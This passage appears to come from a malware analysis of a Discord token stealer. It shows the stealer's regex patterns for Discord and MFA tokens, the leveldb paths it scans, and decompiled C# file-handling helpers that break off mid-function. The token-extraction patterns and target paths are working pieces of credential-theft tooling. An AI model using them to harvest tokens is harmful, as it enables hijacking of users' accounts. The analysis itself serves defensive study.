 
### **TokenRegexs (Static Field)**

- Regex patterns used for token extraction:
    - `dQw4w9WgXcQ:[^.*\['(.*)'\].*$][^"]*`: Targets encoded or non-standard tokens.
    - `[\\w-]{24,26}\\.[\\w-]{6}\\.[\\w-]{25,110}`: Matches typical Discord token structure.
    - `[a-zA-Z0-9]{24}\\.[a-zA-Z0-9]{6}\\.[a-zA-Z0-9_\\-]{27}|mfa\\.[a-zA-Z0-9_\\-]{84}`: Matches standard or MFA Discord tokens.

---

### **DiscordDirectories (Static Field)**

- Paths scanned for token data and leveldb files:
    - `Discord\Local Storage\leveldb`
    - `Discord PTB\Local Storage\leveldb`
    - `Discord Canary\leveldb`

# Stage 8: File Manager

```csharp
using System;
using System.IO;
using System.Linq;

namespace Helpers
{
	// Token: 0x02000006 RID: 6
	internal sealed class Filemanager
	{
		// Token: 0x06000012 RID: 18 RVA: 0x00002E44 File Offset: 0x00001044
		public static void RecursiveDelete(string path)
		{
			DirectoryInfo directoryInfo = new DirectoryInfo(path);
			bool flag = !directoryInfo.Exists;
			if (!flag)
			{
				foreach (DirectoryInfo directoryInfo2 in directoryInfo.GetDirectories())
				{
					Filemanager.RecursiveDelete(directoryInfo2.FullName);
				}
				directoryInfo.Delete(true);
			}
		}

		// Token: 0x06000013 RID: 19 RVA: 0x00002E98 File Offset: 0x00001098
		public static void CopyDirectory(string sourceFolder, string destFolder)
		{
			try
			{
				bool flag = !Directory.Exists(destFolder);
				if (flag)
				{
					Directory.CreateDirectory(destFolder);
				}
				string[] files = Directory.GetFiles(sourceFolder);
				foreach (string text in files)
				{
					string fileName = Path.GetFileName(text);
					string text2 = Path.Combine(destFolder, fileName);
					File.Copy(text, text2);
				}
				string[] directories = Directory.GetDirectories(sourceFolder);
				foreach (string text3 in directories)
```